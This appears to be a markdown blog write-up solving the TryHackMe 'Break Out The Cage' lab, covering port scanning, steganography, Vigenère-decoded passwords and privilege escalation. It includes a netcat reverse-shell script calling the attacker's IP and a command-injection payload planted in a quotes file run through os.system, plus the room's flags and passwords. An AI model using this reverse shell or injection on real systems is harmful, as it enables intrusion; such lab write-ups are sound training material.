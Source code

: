 ```yaml
---
title: "Break Out The Cage - TryHackMe"
author: Ludovic COULON
date: 2020-06-18
hero: ./images/hero.jpeg
excerpt: "Writeup for the Break Out The Cage room on TryHackMe"
---
```


[TryHackMe | Break Out The Cage](https://tryhackme.com/room/breakoutthecage1)
Let's find out what his agent is up to....

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.145.194
```

```bash
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn+KLEDP81/6ceCvdFeDrLFYWSWc6UnOmmpiNeXuyr+GRvE5Eff4DOeTbiEIcHQkkPcz2QXiOLd9SMjCEgAqmZiZE/mv1HJpQfmRLOufOlf9oZ1TIZf7ehKcVqX0W3nuQeC+M2wLBse2lGhovnTSaZKLKRjQCP2yD1EzND/xFA88oFpahvr6vJfyGOTADjc83AJq9n3Gnil4Nd88xNsIKTl01Mm9ikE/3n/XFbwzYa2bYJRVr+lWWRd+EU3sYTY80PQgBiw6ZPT0QCe0lQfmcgCqu4hC+t/kyfmMRlbtjN/yZJ0gCWeVVAV+A4NNgsOqFbXUT+c6ATzYNhBXRojJED
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3G1rdbZBOf44Cvz2YGtC5WhIHfHQhtShY8miCVHayvHM/9reA8VvLx9jBOa+iClhm/HairgvNV6pYV6Jg6MII=
|   256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFiTPEbVpYmF2d/NDdhVYlXWA5PmTHhtrtlAaTiEuZOj

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
➜  TryHackMe dirb http://10.10.145.194/ -R

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 15 10:10:41 2020
URL_BASE: http://10.10.145.194/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Interactive Recursion

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.145.194/ ----
==> DIRECTORY: http://10.10.145.194/contracts/
==> DIRECTORY: http://10.10.145.194/html/
==> DIRECTORY: http://10.10.145.194/images/
==> DIRECTORY: http://10.10.145.194/auditions/
+ http://10.10.145.194/index.html (CODE:200|SIZE:2453)
==> DIRECTORY: http://10.10.145.194/scripts/
+ http://10.10.145.194/server-status (CODE:403|SIZE:278)
```

<div className="Image__Medium">
  <img src="https://imgur.com/OszNOAo.png" alt="blog_image" />
</div>

As you can see by the title of the file, this mp3 is corrupted let's see if there is something hidden using stenography.

<div className="Image__Medium">
  <img src="https://imgur.com/1VoGSx0.png" alt="blog_image" />
</div>

Yep ! There is something hidden in this file the "password" is : namelesstwo

<div className="Image__Medium">
  <img src="https://imgur.com/gN4KqtG.png" alt="blog_image" />
</div>
<div className="Image__Medium">
  <img src="https://imgur.com/eVBHL57.png" alt="blog_image" />
</div>

[Vigenère Cipher - Decoder, Encoder, Solver, Translator](https://www.dcode.fr/vigenere-cipher)

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #1 What is Weston's password?

```bash
Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

### #2 What's the user flag?

I tried to use the find command to locate all the txt files but nothing came out..

```
weston@national-treasure:~$ find / -type f -name "user.*" 2>/dev/null
```

Let's try something else .. 😢

<div className="Image__Medium">
  <img src="https://imgur.com/B1Bb9kI.png" alt="blog_image" />
</div>

As you can see there this script that we can execute with root permission let's get a reverse shell 🤤

Wait ...

<div className="Image__Medium">
  <img src="https://imgur.com/fe66YHv.png" alt="blog_image" />
</div>

When I was editing the script I noticed something interesting there is a script that write random quotes, let's find the script 🤨

You can also find the random quotes in the motd

<div className="Image__Medium">
  <img src="https://imgur.com/iQWwMqZ.png" alt="blog_image" />
</div>

```
weston@national-treasure:~$ find / -type f -name "rando*" 2>/dev/null
```

Nothing there.. 😟

```
weston@national-treasure:~$ find / -type f -name "*quotes*" 2>/dev/null
```

AH ! I found it! 😅

<div className="Image__Medium">
  <img src="https://imgur.com/tUotgtl.png" alt="blog_image" />
</div>

```python
weston@national-treasure:~$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

Let's get a reverse shell

```bash
rm -f /tmp/rev
cat << EOF > /tmp/rev
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.228 4444 >/tmp/f
EOF
chmod +x /tmp/rev
printf 'bop; /tmp/rev\n' > /opt/.dads_scripts/.files/.quotes
```

Wait maybe 1 or two minutes to get a shell

<div className="Image__Medium">
  <img src="https://imgur.com/WBwzInV.png" alt="blog_image" />
</div>

```bash
ls
email_backup
Super_Duper_Checklist
cd Super*
/bin/bash: line 30: cd: Super_Duper_Checklist: Not a directory
cat Super*
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

### #3 What's the root flag?

Once you are in the cage account go to this repertory

```bash
/home/cage/email_backup
```

And cat \*

<div className="Image__Medium">
  <img src="https://imgur.com/oi1cWOc.png" alt="blog_image" />
</div>

After a while I figured out that the "password" highlighted is encoded using Vigenère encryption

But as you can see you need to provide some key to decode the password I tried "Face" because on the last paragraph the email repeat many times the word so i guess i had some chance 🥴

<div className="Image__Medium">
  <img src="https://imgur.com/junuXVj.png" alt="blog_image" />
</div>

[CyberChef](<https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('face')&input=aGFpaW5zcHN5YW5pbGVwaA>)

```bash
cageisnotalegend
```

You can also stabilized the shell using the cage's ssh key

<div className="Image__Medium">
  <img src="https://imgur.com/uWyHix4.png" alt="blog_image" />
</div>

Once you stabilized the shell you can just type "su" and type the password that we discover earlier

<div className="Image__Medium">
  <img src="https://imgur.com/ibMOroe.png" alt="blog_image" />
</div>

```bash
THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
